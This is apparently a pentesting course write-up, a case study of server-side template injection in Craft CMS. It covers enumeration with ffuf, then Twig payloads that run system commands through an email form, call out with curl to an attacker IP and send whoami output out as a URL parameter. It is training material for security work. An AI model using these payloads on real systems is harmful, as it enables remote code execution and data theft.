 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_1.png" alt=""><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](broken-reference) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).

{% code overflow="wrap" %}
```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_craft_2.png" alt=""><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_3.png" alt=""><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```
{% endcode %}

To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash
{% raw %}
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}}

{% set exfil = output| url_encode %}
{% endraw %}
{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```
{% endcode %}
